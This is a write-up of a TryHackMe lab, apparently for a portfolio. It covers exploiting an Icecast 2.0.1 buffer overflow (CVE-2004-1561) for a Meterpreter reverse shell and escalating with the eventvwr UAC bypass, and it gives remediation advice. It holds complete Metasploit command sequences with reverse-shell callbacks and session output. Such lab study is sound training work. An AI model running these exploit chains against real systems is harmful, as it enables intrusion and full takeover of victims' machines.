





# TryHackMe — Ice: Icecast 2.0.1 RCE & Windows Privilege Escalation

**Platform:** TryHackMe
**Target OS:** Windows 7 / Windows Server 2008 R2
**Difficulty:** Easy
**Category:** Buffer Overflow (RCE), Local Privilege Escalation

---

## Summary

This report documents the full compromise of the **Ice** machine on TryHackMe, from initial reconnaissance to SYSTEM-level privilege escalation. The target exposes an outdated **Icecast 2.0.1** streaming media server vulnerable to a remote buffer overflow (**CVE-2004-1561**) that allows arbitrary code execution via crafted HTTP headers. Initial access was obtained as a low-privileged user via a Meterpreter reverse shell. Privilege escalation to `NT AUTHORITY\SYSTEM` was then achieved by abusing a Windows COM object hijack vulnerability (`bypassuac_eventvwr`) that leverages auto-elevating binaries and registry key redirection under `HKCU`.

| Stage | Technique | Result |
|---|---|---|
| Reconnaissance | `arp-scan`, `nmap` | Identified host + 7 open ports |
| Initial Access | Icecast HTTP header buffer overflow (CVE-2004-1561) | Meterpreter session as local user |
| Privilege Escalation | `bypassuac_eventvwr` (COM/registry hijack) | SYSTEM shell |

---

## 1. Reconnaissance

### 1.1 Host Discovery

ARP scan was used to identify the target's IP address on the local network.

```bash
arp-scan -l
```



Target identified at `192.168.37.138`.

### 1.2 Port and Service Enumeration

A full SYN scan with service/version detection was run against the target:

```bash
nmap -sS -sV 192.168.37.138
```

**Results:**

| Port | Service | Version |
|---|---|---|
| 135/tcp | msrpc | Microsoft Windows RPC |
| 139/tcp | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | microsoft-ds | Windows 7–10 (workgroup: WORKGROUP) |
| 5357/tcp | http | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |
| **8000/tcp** | **http** | **Icecast streaming media server** |
| 49152–49157/tcp | msrpc | Microsoft Windows RPC |

The host fingerprinted as `DARK-PC`, a Windows machine. Port **8000** running **Icecast** stood out as the most promising attack surface — it is not a standard Windows service and is known to carry historical CVEs.

---

## 2. Vulnerability Identification

A search for known Icecast vulnerabilities surfaced **CVE-2004-1561**:

> Buffer overflow in Icecast 2.0.1 and earlier allows remote attackers to execute arbitrary code via an HTTP request with a large number of headers.

A matching Metasploit module was confirmed:

```
search CVE-2004-1561
```



```
exploit/windows/http/icecast_header   2004-09-28   great   No   Icecast Header Overwrite
```

---

## 3. Exploitation — Initial Access

### 3.1 Root Cause

Icecast 2.0.1 fails to properly bound-check the number of HTTP headers it processes. By sending more headers than the server's buffer is sized to handle, the excess data overflows into adjacent memory, overwriting data outside the reserved header-parsing buffer.

Specifically, the overflow corrupts the **saved return address (EIP)** on the stack — the address the CPU jumps back to once the function handling the request returns. By controlling this address, an attacker can redirect execution to attacker-supplied shellcode instead of the legitimate return point, resulting in arbitrary code execution in the context of the Icecast process.

### 3.2 Module Configuration

```
use exploit/windows/http/icecast_header
set RHOSTS 192.168.37.138
set RPORT 8000
set LHOST 192.168.37.133
set LPORT 4444
```



### 3.3 Execution

```
exploit
```

```
[*] Started reverse TCP handler on 192.168.37.133:4444
[*] Sending stage (177734 bytes) to 192.168.37.138
[*] Meterpreter session 1 opened (192.168.37.133:4444 -> 192.168.37.138:49181)
```

A Meterpreter session was established as a low-privileged user.

---

## 4. Privilege Escalation

### 4.1 Local Exploit Suggester

With an active session, Metasploit's built-in suggester was used to identify viable local privilege escalation paths for the target's patch level:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```



Several modules were flagged as likely viable, including `bypassuac_eventvwr`, which targets unpatched Windows 7 / Server 2008 R2 hosts.

### 4.2 Root Cause — UAC Bypass via COM Hijacking

This privilege escalation path abuses Windows' **COM (Component Object Model)** architecture, which allows components written in different languages to interoperate. COM objects commonly rely on shared **DLLs**, and the system resolves which DLL to load for a given COM object via registry paths — including paths stored under the current user's `HKCU` hive.

`eventvwr.exe` is an auto-elevating Windows binary (it silently triggers a UAC elevation prompt without showing the prompt itself, due to its manifest settings, on default UAC configurations). When it runs, it queries `HKCU` to resolve a COM object and load its associated DLL.

The exploit hijacks this lookup: it writes a malicious registry key under the current user's `HKCU` hive, pointing the COM resolution to an attacker-controlled payload instead of the legitimate system DLL. Because `eventvwr.exe` auto-elevates, the payload it triggers — in this case a command shell — executes with the integrity level `eventvwr.exe` elevates to, escalating the session from a standard user to a higher-privileged context, without ever rendering a visible UAC prompt.

### 4.3 Execution

```
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 192.168.37.133
set LPORT 4444
exploit
```



```
[*] UAC is enabled, checking level...
[+] Part of Administrators group! Continuing...
[*] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[*] Meterpreter session 2 opened (192.168.37.133:4444 -> 192.168.37.138:49180)
[*] Cleaning up registry keys ...

C:\Windows\system32>
```

A second Meterpreter session was opened with an elevated shell, dropped directly into `C:\Windows\system32`, confirming privilege escalation.

---

## 5. Findings Summary

| # | Finding | Severity | CVE / Reference |
|---|---|---|---|
| 1 | Icecast 2.0.1 HTTP header buffer overflow leading to remote code execution | **Critical** | CVE-2004-1561 |
| 2 | UAC bypass via COM/registry hijack (`eventvwr.exe` auto-elevation) | **High** | Known Windows 7/Server 2008 R2 UAC design weakness |

## 6. Remediation

1. **Patch or replace Icecast.** Version 2.0.1 is over two decades out of date; upgrade to the latest maintained release or decommission the service if unused.
2. **Restrict exposure** of streaming/media services to internal networks only — they should not be internet- or LAN-wide reachable without a clear business need.
3. **Apply current Windows updates.** The `eventvwr.exe` auto-elevation abuse was patched in later Windows builds; this attack does not work against fully updated, modern Windows versions.
4. **Harden UAC settings** to "Always notify" rather than the default level, which closes off several silent-auto-elevation abuse paths.
5. **Principle of least privilege:** the compromised account should not have been part of the local Administrators group, which is what allowed the UAC bypass technique to succeed in the first place.

---

## Tools Used

- `arp-scan`, `nmap` — reconnaissance
- `Metasploit Framework` (`msfconsole`) — exploitation and post-exploitation
- `Meterpreter` — post-exploitation shell

## Skills Demonstrated

- Network reconnaissance and service enumeration
- CVE research and exploit-to-vulnerability mapping
- Memory corruption / buffer overflow exploitation concepts (EIP overwrite)
- Windows internals: COM object resolution, registry hijacking, UAC bypass mechanics
- Full attack chain documentation (recon → exploitation → privesc → remediation)
